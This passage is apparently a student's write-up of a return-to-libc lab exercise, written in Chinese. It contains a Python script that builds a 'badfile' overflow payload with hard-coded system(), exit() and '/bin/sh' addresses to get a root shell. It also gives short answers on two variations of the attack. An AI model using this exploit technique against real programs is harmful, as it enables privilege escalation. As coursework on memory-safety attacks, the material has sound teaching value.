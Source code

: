 具体如图，分别找到X,Y,Z对应的位置：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243636.jpg)

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0x1c+8
sh_addr = 0xffffd3f2       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0x1c
system_addr = 0xf7e09790   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0x1c+4
exit_addr = 0xf7dfc0d0     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

运行成功：

![image-20220407104800245](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012243478.png)



#### Attack variation 1: 

> Is the `exit()` function really necessary? Please try your attack without including the address of this function in badfile. Run your attack again, report and explain your observations.

A：如果把`exit()`部分代码注释掉，仍然可以获取root权限，只是在最后退出的时候`system()`会跳向一个没有意义的地址(`0xaaaaaaaa`)，会产生`Segmentation fault`。

![image-20220407104847701](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244119.png)



#### Attack variation 2: 

> After your attack is successful, change the file name of `retlib` to a different name, making sure that the length of the new fifile name is different. For example, you can change it to `newretlib`. Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does not succeed, explain why.

A：失败，由于文件名发生了变化，导致环境变量的位置发生了变化，无法跳转到正确的myshell的位置。

![image-20220407104045505](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012244294.png)
